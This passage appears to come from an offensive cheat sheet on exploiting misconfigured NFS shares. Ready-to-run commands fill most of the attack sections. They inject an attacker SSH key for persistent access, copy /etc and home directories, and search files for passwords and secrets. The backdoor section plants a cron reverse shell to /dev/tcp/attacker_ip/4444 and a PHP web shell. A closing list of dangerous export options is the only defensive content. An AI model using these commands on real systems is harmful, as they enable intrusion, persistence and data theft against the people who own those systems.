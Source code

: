 ```bash
# Execute on target system for privilege escalation
```

---

## Persistence & Data Extraction

### SSH Key Injection
```bash
# Access user home directories via NFS
# Inject SSH public key for persistent access

mkdir -p /mnt/nfs_target/home/user/.ssh/
echo "ssh-rsa AAAAB3... attacker@kali" >> /mnt/nfs_target/home/user/.ssh/authorized_keys
chmod 600 /mnt/nfs_target/home/user/.ssh/authorized_keys

# SSH into target system
ssh user@target
```

### Data Exfiltration
```bash
# Recursive file reading
find /mnt/nfs_target -type f -exec cat {} \; > extracted_data.txt

# Copy sensitive files
cp -r /mnt/nfs_target/etc/ ./nfs_etc_backup/
cp -r /mnt/nfs_target/home/ ./nfs_home_backup/

# Search for specific content
grep -r "password" /mnt/nfs_target/
grep -r "secret" /mnt/nfs_target/
```

### Backdoor Placement
```bash
# Place cron job backdoor
echo "* * * * * /bin/bash -i >& /dev/tcp/attacker_ip/4444 0>&1" >> /mnt/nfs_target/etc/crontab

# Web application backdoor
echo '<?php system($_GET["cmd"]); ?>' > /mnt/nfs_target/var/www/html/shell.php
```

---

## Common Misconfigurations

### High-Risk NFS Export Options
```bash
# Check /etc/exports for dangerous settings:
# rw - Read/write access
# no_root_squash - Root privileges retained
# insecure - Ports above 1024 allowed
# nohide - Exposes mounted filesystems

# Example dangerous export:
# /home *(rw,no_root_squash,insecure)
```

